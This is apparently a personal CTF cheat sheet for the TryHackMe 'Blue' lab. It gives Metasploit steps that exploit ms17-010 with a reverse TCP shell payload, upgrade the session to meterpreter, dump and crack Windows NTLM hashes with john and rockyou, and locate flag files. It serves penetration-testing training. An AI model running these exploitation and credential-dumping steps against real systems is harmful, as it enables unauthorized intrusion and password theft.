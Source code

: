 ## Bule 
	--> https://tryhackme.com/r/room/blue
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	scan : 
		--> sudo nmap -sV -sS --script vuln 10.10.138.95
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	access :
		--> msfconsole
			> msfdb run
			> search ms17-010
			> show options
			> set payload windows/x64/shell/reverse_tcp
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	upgrade : 
		--> use post/multi/manage/shell_to_meterpreter 
		--> set SESSION 1 => run 
		--> sessions -i 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Command :
		--> shell --> whoami --> exit
		--> ps
		--> migrate
		--> hashdump
	--> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
		=> 1. decrpty hash it online 
		=> 2. echo "Hash" > ntlm.txt
		=> john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlm.txt
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	database :  fail !!!!
		--> sudo service postgresql start
		--> sudo msfdb init
		--> sudo msfconsole
		--> > db_status
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~					
	3.HASH :  		
		--> background
		--> use post/windows/gather/hashdump
		--> set SESSION <SESSION_ID>
		--> run
 
		--> creds
		
		--> use auxiliary/analyze/crack_windows
		--> set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
		--> run
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	flag :	
		--> sessions <SESSION_ID>
		--> shell
		--> cd C:\
		--> dir *flag*.* /s
		--> type <FULL_PATH_TO_FLAG_TXT_FILE>
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		search -f flag*.txt
		